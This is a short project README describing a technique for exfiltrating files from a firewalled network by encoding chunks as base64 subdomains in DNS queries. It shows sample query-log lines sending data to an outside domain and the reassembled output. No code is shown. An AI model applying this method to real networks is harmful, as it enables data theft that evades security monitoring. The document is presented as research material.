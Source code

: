 dns-exfiltration
================

Exfiltrate files via DNS. Based on [research by 16 Systems](http://16s.us/dns/).

### What the DNS Queries Look Like in Your Server's DNS Query Log

```
# The base64 encoded data is the payload
# Each query contains 8 bytes from the file

26-Aug-13 18:12:39 queries: info: client 8.x.x.x#18743:
  query: AAAAAAAAAAAxMjM0NTY3OA==.file1.16s.us IN A -ED (2.x.x.x)
26-Aug-13 18:12:49 queries: info: client 8.x.x.x#59519:
  query: AQAAAAAAAAA5MAoAAAAAAA==.file1.16s.us IN A -ED (2.x.x.x)
```

### What the Raw Reassembled File Looks Like

```
# First element is the sequence number. Second is bytes from file.
# You need the sequence number to reassemble the file in the right order.

(0, '12345678')
(1, '90\n\x00\x00\x00\x00\x00')
```

### That's It

This can be automated and made to be very efficient, but I won't get into that. It also works on very large files (2^32 * 8) and with any type of file (text, binary, etc). So, now you know how to exfiltrate files from a firewalled network using simple DNS queries. When/if the network security team figures this out and blocks it, I'll demonstrate a few other ways in which data can be exfiltrated.

Again, this information is meant for research/educational purposes only.
